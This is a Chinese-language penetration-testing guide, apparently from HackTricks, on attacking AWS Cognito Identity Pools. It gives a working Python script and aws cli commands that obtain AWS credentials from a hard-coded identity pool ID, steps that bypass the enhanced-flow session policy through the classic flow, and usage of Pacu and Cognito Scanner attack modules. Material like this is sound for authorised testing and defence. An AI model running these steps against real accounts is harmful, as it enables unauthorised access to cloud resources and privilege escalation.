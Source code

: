 # Cognito Identity Pools

{{#include ../../../../banners/hacktricks-training.md}}

## 基本信息

身份池在使用户能够**获取临时凭证**方面发挥着至关重要的作用。这些凭证对于访问各种AWS服务至关重要，包括但不限于Amazon S3和DynamoDB。身份池的一个显著特点是它们支持匿名访客用户和多种身份提供者进行用户身份验证。支持的身份提供者包括：

- Amazon Cognito 用户池
- 社交登录选项，如Facebook、Google、使用Amazon登录和使用Apple登录
- 符合OpenID Connect (OIDC)的提供者
- SAML (安全断言标记语言) 身份提供者
- 开发者认证身份
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

要生成身份池会话，您首先需要**生成身份 ID**。这个身份 ID 是**该用户会话的标识**。这些标识可以有多达 20 个数据集，可以存储多达 1MB 的键值对。

这对于**保持用户信息**（用户将始终使用相同的身份 ID）是**有用的**。

此外，服务**cognito-sync**是允许**管理和同步这些信息**的服务（在数据集中，发送信息到流和 SNS 消息...）。

### Tools for pentesting

- [Pacu](https://github.com/RhinoSecurityLabs/pacu)，AWS 利用框架，现在包括“cognito\_\_enum”和“cognito\_\_attack”模块，这些模块自动枚举账户中的所有 Cognito 资产并标记弱配置、用于访问控制的用户属性等，同时还自动创建用户（包括 MFA 支持）和基于可修改自定义属性的权限提升、可用的身份池凭证、可假设的角色在 ID 令牌中等。

有关模块功能的描述，请参见[博客文章](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2)的第 2 部分。有关安装说明，请参见主 [Pacu](https://github.com/RhinoSecurityLabs/pacu) 页面。

#### Usage

示例 cognito\_\_attack 用法，尝试在给定身份池和用户池客户端上创建用户和所有权限提升向量：
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
示例 cognito\_\_enum 用法，以收集当前 AWS 账户中可见的所有用户池、用户池客户端、身份池、用户等：
```bash
Pacu (new:test) > run cognito__enum
```
- [Cognito Scanner](https://github.com/padok-team/cognito-scanner) 是一个用 Python 编写的 CLI 工具，实施对 Cognito 的不同攻击，包括不必要的账户创建和身份池升级。

#### 安装
```bash
$ pip install cognito-scanner
```
#### 用法
```bash
$ cognito-scanner --help
```
有关更多信息，请查看 https://github.com/padok-team/cognito-scanner

## 访问 IAM 角色

### 未认证

攻击者需要知道的唯一信息，以便在 Cognito 应用中作为未认证用户**获取 AWS 凭证**，就是**身份池 ID**，并且此**ID 必须在**web/mobile **应用中硬编码**以供使用。ID 看起来像这样：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（无法通过暴力破解获得）。

> [!TIP]
> 通过创建的**IAM Cognito 未认证角色默认称为** `Cognito_<Identity Pool name>Unauth_Role`

如果您发现一个硬编码的身份池 ID 并且它允许未认证用户，您可以使用以下方法获取 AWS 凭证：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
或者你可以使用以下 **aws cli 命令**：
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
> [!WARNING]
> 请注意，默认情况下，未经身份验证的 cognito **用户无法拥有任何权限，即使通过策略分配了权限**。请查看以下部分。

### 增强与基本身份验证流程

上一部分遵循了 **默认增强身份验证流程**。此流程为生成的 IAM 角色会话设置了 **限制性** [**会话策略**](../../aws-basic-information/index.html#session-policies)。该策略仅允许会话 [**使用此列表中的服务**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)（即使该角色可以访问其他服务）。

然而，如果 **身份池启用了“基本（经典）流程”**，则有一种方法可以绕过此限制，用户将能够使用该流程获取会话，而该会话 **将没有该限制性会话策略**。
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
> [!WARNING]
> 如果您收到此 **错误**，则是因为 **基本流程未启用（默认）**

> `发生错误（InvalidParameterException），调用 GetOpenIdToken 操作时：基本（经典）流程未启用，请使用增强流程。`

拥有一组 IAM 凭证后，您应该检查 [您拥有的访问权限](../../index.html#whoami) 并尝试 [提升权限](../../aws-privilege-escalation/index.html)。

### 已认证

> [!NOTE]
> 请记住，**已认证用户**可能会被授予 **不同的权限**，因此如果您可以 **在应用程序内注册**，请尝试这样做并获取新的凭证。

对于 **访问身份池的已认证用户**，可能还有 **角色** 可用。

为此，您可能需要访问 **身份提供者**。如果这是 **Cognito 用户池**，也许您可以利用默认行为 **自己创建一个新用户**。

> [!TIP]
> 通过 **IAM Cognito 认证角色创建的角色** 默认称为 `Cognito_<Identity Pool name>Auth_Role`

无论如何，**以下示例** 假设您已经登录到用于访问身份池的 **Cognito 用户池**（不要忘记，其他类型的身份提供者也可以被配置）。

<pre class="language-bash"><code class="lang-bash">
# 更新格式
aws cognito-identity get-id \
--identity-pool-id <identity_pool_id> \
--logins '{"cognito-idp.<region>.amazonaws.com/<user_pool_id>": "<ID_TOKEN>"}'

aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--logins '{"cognito-idp.<region>.amazonaws.com/<user_pool_id>": "<ID_TOKEN>"}'

aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--custom-role-arn <role_arn> \
--logins '{"cognito-idp.<region>.amazonaws.com/<user_pool_id>": "<ID_TOKEN>"}'
</code></pre>

> **已弃用格式** — 这些可能不再适用于当前的 AWS CLI：
<pre class="language-bash"><code class="lang-bash">
aws cognito-identity get-id \
--identity-pool-id <identity_pool_id> \
--logins cognito-idp.<region>.amazonaws.com/<user_pool_id>=<ID_TOKEN>

aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--logins cognito-idp.<region>.amazonaws.com/<user_pool_id>=<ID_TOKEN>

aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--custom-role-arn <role_arn> \
--logins cognito-idp.<region>.amazonaws.com/<user_pool_id>=<ID_TOKEN>
</code></pre>

> [!WARNING]
> 可以 **根据用户登录的身份提供者** 配置不同的 IAM 角色，甚至仅仅根据 **用户**（使用声明）。因此，如果您通过相同或不同的提供者访问不同的用户，可能 **值得登录并访问他们的所有 IAM 角色**。

{{#include ../../../../banners/hacktricks-training.md}}
